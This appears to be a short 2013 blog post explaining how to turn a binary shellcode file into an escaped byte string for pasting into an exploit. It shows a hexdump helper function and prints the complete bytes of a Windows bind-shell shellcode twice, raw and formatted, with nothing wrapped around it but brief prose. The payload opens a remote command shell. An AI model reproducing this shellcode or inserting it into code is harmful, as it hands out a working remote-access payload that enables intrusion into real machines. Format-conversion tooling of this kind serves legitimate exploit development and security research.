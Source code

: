 ```yaml
---
layout: post
title: "Binary to shellcode"
date: 2013-03-02 18:10:26 -0400
comments: true
categories: howto coding
redirect_from: /2013/03/binary-to-shellcode.html
---
```


The other day I was working on a Windows machine and downloaded a small Windows bind shellcode from [https://code.google.com/p/w32-bind-ngs-shellcode/](https://code.google.com/p/w32-bind-ngs-shellcode/). I wanted to extract the shellcode from the bin file and pop it into my exploit. On Linux, this can be done with the following: 

<!--more-->

``` python
function bin2sc {
    # convert .bin to shellcode
    hexdump -v -e '"\\""x" 1/1 "%02x" ""' ${1}
}
```

Running this prints the shellcode out as one long string: 

```
# bin2sc w32-bind-ngs-shellcode.bin 
\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x51\x68\x32\x5f\x33\x32\x68\x66\x56\x77\x73\x68\xb7\x8f\x09\x98\x89\xe6\xb5\x03\x29\xcc\x29\xcc\x89\xe7\xd6\xf3\xaa\x41\x51\x41\x51\x57\x51\x83\xef\x2c\xa4\x4f\x8b\x5d\x3c\x8b\x5c\x1d\x78\x01\xeb\x8b\x4b\x20\x01\xe9\x56\x31\xd2\x42\x8b\x34\x91\x01\xee\xb4\x36\xac\x34\x71\x28\xc4\x3c\x71\x75\xf7\x3a\x27\x75\xeb\x5e\x8b\x4b\x24\x01\xe9\x0f\xb7\x14\x51\x8b\x4b\x1c\x01\xe9\x89\xe8\x03\x04\x91\xab\x80\x3e\x09\x75\x08\x8d\x5e\x04\x53\xff\xd0\x57\x95\x80\x3e\x73\x75\xb1\x5e\xad\xff\xd0\xad\xff\xd0\x95\x81\x2f\xfe\xff\x8f\x33\x6a\x10\x57\xad\x55\xff\xd0\x85\xc0\x74\xf8\x31\xd2\x52\x68\x63\x6d\x64\x20\x8d\x7c\x24\x38\xab\xab\xab\xc6\x47\xe9\x01\x54\x87\x3c\x24\x57\x52\x52\x52\xc6\x47\xef\x08\x57\x52\x52\x57\x52\xff\x56\xe4\x8b\x46\xfc\xe9\xca\xff\xff\xff
```

However, the Windows machine I was on didn't have hexdump installed. So I hacked up the following in python that extracts the hexadecimal values from the bin file and prints it out nicely formatted: 

{% gist 11164279 %}

Running the script gives us the following output:

```
C:\ python.exe bin2sc.py w32-bind-ngs-shellcode.bin 
"\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08" +
"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x51\x68\x32\x5f\x33" +
"\x32\x68\x66\x56\x77\x73\x68\xb7\x8f\x09\x98\x89\xe6\xb5\x03" +
"\x29\xcc\x29\xcc\x89\xe7\xd6\xf3\xaa\x41\x51\x41\x51\x57\x51" +
"\x83\xef\x2c\xa4\x4f\x8b\x5d\x3c\x8b\x5c\x1d\x78\x01\xeb\x8b" +
"\x4b\x20\x01\xe9\x56\x31\xd2\x42\x8b\x34\x91\x01\xee\xb4\x36" +
"\xac\x34\x71\x28\xc4\x3c\x71\x75\xf7\x3a\x27\x75\xeb\x5e\x8b" +
"\x4b\x24\x01\xe9\x0f\xb7\x14\x51\x8b\x4b\x1c\x01\xe9\x89\xe8" +
"\x03\x04\x91\xab\x80\x3e\x09\x75\x08\x8d\x5e\x04\x53\xff\xd0" +
"\x57\x95\x80\x3e\x73\x75\xb1\x5e\xad\xff\xd0\xad\xff\xd0\x95" +
"\x81\x2f\xfe\xff\x8f\x33\x6a\x10\x57\xad\x55\xff\xd0\x85\xc0" +
"\x74\xf8\x31\xd2\x52\x68\x63\x6d\x64\x20\x8d\x7c\x24\x38\xab" +
"\xab\xab\xc6\x47\xe9\x01\x54\x87\x3c\x24\x57\x52\x52\x52\xc6" +
"\x47\xef\x08\x57\x52\x52\x57\x52\xff\x56\xe4\x8b\x46\xfc\xe9" +
"\xca\xff\xff\xff"
```

Ta da. 

